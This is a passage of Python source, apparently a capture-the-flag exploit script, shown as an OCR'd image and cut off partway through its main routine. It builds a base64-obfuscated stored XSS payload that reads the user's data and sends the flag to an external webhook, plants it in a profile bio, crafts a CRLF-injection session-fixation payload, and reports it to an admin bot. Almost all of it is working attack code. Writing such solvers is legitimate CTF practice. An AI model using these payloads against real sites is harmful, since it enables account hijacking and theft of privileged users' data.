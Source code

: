 ```python
    authCookie = requests.post("%s/api/login" % hostURL, json=jData).cookies.get('session')
    if not authCookie:
        print("Something went wrong while logging in!")
        sys.exit()
    return authCookie

def generate_xss_payload(webhook):
    exfilPayload = """
    fetch('/api/auth').then(res => res.json())
    .then(data => {
        new Image().src = '%s?flag=' + data.user.flag;
    })
    """ % webhook
    base64Payload = base64.b64encode(exfilPayload.encode('utf-8')).decode('utf-8')
    evalPayload = "<img src=1 onerror=eval(atob('{}'))>".format(base64Payload)
    return evalPayload

def update_profile(session, xss_payload):
    postData = {"username": userName, "email": userName + "@gmail.com", "bio": xss_payload}
    response = requests.post("%s/api/profile" % hostURL, json=postData, cookies={
        'session': session
    })

    if response.status_code != 200:
        print("Something went wrong while updating profile!")
        sys.exit()

def generate_crlf_payload(session):
    crlf_payload = "/invite/aaa%0D%0ASet-Cookie:%20session={};%20Path=/api/profile".format(session)
    return crlf_payload

def report_to_admin(session, crlf_payload):
    postData = {"postThread": crlf_payload, "reason": "I breathe JS"}
    response = requests.post("%s/api/report" % hostURL, json=postData, cookies={
        'session': session
    })

    if response.status_code != 200:
        print("Something went wrong while reporting to admin!")
        sys.exit()

def get_flag(session):
    requests.get("%s/api/flag" % hostURL, cookies=session)

def main():
    print('[+] Signing up a new account..')
    register()

    print('[+] Logging in..')
    session = login()

    print('[+] Generating webhook token..')
    webhook = WEBHOOK()
    webhookURL = webhook.url + '/' + webhook.token

    print('[+] Generating XSS payload..')
    XSSPayload = generate_xss_payload(webhookURL)

    print('[+] Updating profile bio with XSS payload..')
    update_profile(session, XSSPayload)

    print('[+] Generating session fixation CRLF payload..')
    CRLFPayload = generate_crlf_payload(session)
```